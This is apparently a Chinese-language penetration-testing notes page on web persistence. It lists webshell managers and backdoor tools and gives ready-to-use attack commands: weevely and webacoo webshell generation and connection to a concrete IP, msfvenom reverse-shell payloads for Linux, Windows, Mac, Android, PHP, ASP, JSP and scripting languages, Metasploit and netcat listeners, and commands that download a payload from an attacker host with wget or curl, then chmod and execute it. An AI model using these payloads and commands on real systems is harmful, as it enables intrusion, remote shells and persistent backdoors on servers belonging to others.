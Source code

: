Web持久化
----------------------------------------

WebShell管理工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `菜刀 <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，不支持HTTPS。
	+ 一句话木马通用后门。
- `Cknife <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 一句话木马通用后门。
- `antSword <https://github.com/antoor/antSword>`_
	+ 支持asp，jsp，php。
	+ 一句话木马通用后门。
- `冰蝎 <https://github.com/rebeyond/Behinder>`_
	+ 动态二进制加密网站管理客户端，支持java,.net,php，HTTPS。
	+ 非通用后门。
- `Altman <https://github.com/keepwn/Altman>`_ 
	+ 支持asp，jsp，php。
- `Webshell Sniper <https://github.com/WangYihang/Webshell-Sniper>`_ 
	+ 仅支持在类Unix系统上运行。
- `quasibot <https://github.com/Smaash/quasibot>`_ complex webshell manager, quasi-http botnet
- webacoo
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``webacoo -g -o webacootest.php`` 
	+ 连接后门： ``webacoo -t -u http://106.54.74.40/webacootest.php`` 
- `weevely3 <https://github.com/epinna/weevely3>`_ Weaponized web shell
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``weevely generate weevelytest ./weevelyphp.php`` 
	+ 连接后门： ``weevely http://106.54.74.40/weevelyphp.php weevelytest`` 
	+ 连接成功后，输入help，可以查看支持的命令和功能，注意执行模板命令需要加:号。
- `Godzilla哥斯拉 <https://github.com/BeichenDream/Godzilla>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 非通用后门。
- Metasploit生成后门
	+ 基本参数
		::
		
			e 编码方式
			i 编码次数
			b 在生成的程序中避免出现的值
			f 输出格式
			p 选择payload
			l 查看所有payload
			a 选择架构平台(x86|x64|x86_64)
			o 文件输出
			c 添加自己的shellcode
			x|k 捆绑
	+ 基本格式：``msfvenom -p <payload> <payload options> -f <format> -o <path>``
	+ 示例
		::
		
			Binaries
				Linux：msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
				Windows：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
				Mac：msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
				Android：msfvenom -p android/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R > shell.apk
			Web Payloads
				php：msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
					cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
				asp：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
				jsp：msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
				WAR：msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
			Scripting Payloads
				Python：msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
				Bash：msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
				Perl：msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
			Shellcode
				Linux Based Shellcode：msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
				Windows Based Shellcode ：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
				Mac Based Shellcode：msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
	+ Handlers
		::
		
			use exploit/multi/handler
			set PAYLOAD <Payload name>
			set LHOST <LHOST value>
			set LPORT <LPORT value>
			set ExitOnSession false
			exploit -j -z
			或
			nc -lvp port
			
	+ 上传木马
		::
		
			命令执行上传：
			system('wget http://10.10.10.131/shell_x64.elf -P /tmp/')
			
	+ 执行木马
		::
		
			system('chmod 777 /tmp/shell_x64.elf')
			system('/tmp/shell_x64.elf')
			注意tmp目录有写入执行权限。
		
			web页面：system("curl http://10.10.10.131/shell.asp")
	+ 交互
		::
		
			进入交互页面meterpreter会话执行以下：
			shell
			python -c "import pty;pty.spawn('/bin/bash')"

WebShell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `php-reverse-shell <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>`_
	+ ``$ip = '127.0.0.1';  // CHANGE THIS``
	+ ``$port = 3333;       // CHANGE THIS``
	+ 注意根据实际情况需要修改(若sh如何指向dash，为非交互的shell)：``$shell = 'uname -a; w; id; /bin/sh -i';->$shell = 'uname -a; w; id; /bin/bash -i';``
- `webshell <https://github.com/tennc/webshell>`_
- `PHP backdoors <https://github.com/bartblaze/PHP-backdoors>`_
- `php bash - semi-interactive web shell <https://github.com/Arrexel/phpbash>`_
- `Python RSA Encrypted Shell <https://github.com/Eitenne/TopHat.git>`_
- `b374k - PHP WebShell Custom Tool <https://github.com/b374k/b374k>`_
- `c99shell <https://github.com/KaizenLouie/C99Shell-PHP7>`_
- `wso <https://github.com/phpFileManager/WSO>`_
- `JSPSPY <https://www.webshell.cc/wp-content/uploads/2013/09/ASPXspy2.rar>`_
- `ASPXSPY <https://www.webshell.cc/wp-content/uploads/2013/09/ASPXspy2.rar>`_
- `phpspy <https://www.webshell.cc/wp-content/uploads/2013/09/phpspy.rar>`_
- ``/usr/share/webshells/*`` 
- `revshells.com在线shell生成 <https://www.revshells.com/>`_

Web后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `pwnginx <https://github.com/t57root/pwnginx>`_
- `Apache backdoor <https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor>`_
- `SharpGen <https://github.com/cobbr/SharpGen>`_  .NET Core console application that utilizes the Rosyln C# compiler to quickly cross-compile .NET Framework console applications or libraries
- `IIS-Raid <https://github.com/0x09AL/IIS-Raid>`_ A native backdoor module for Microsoft IIS
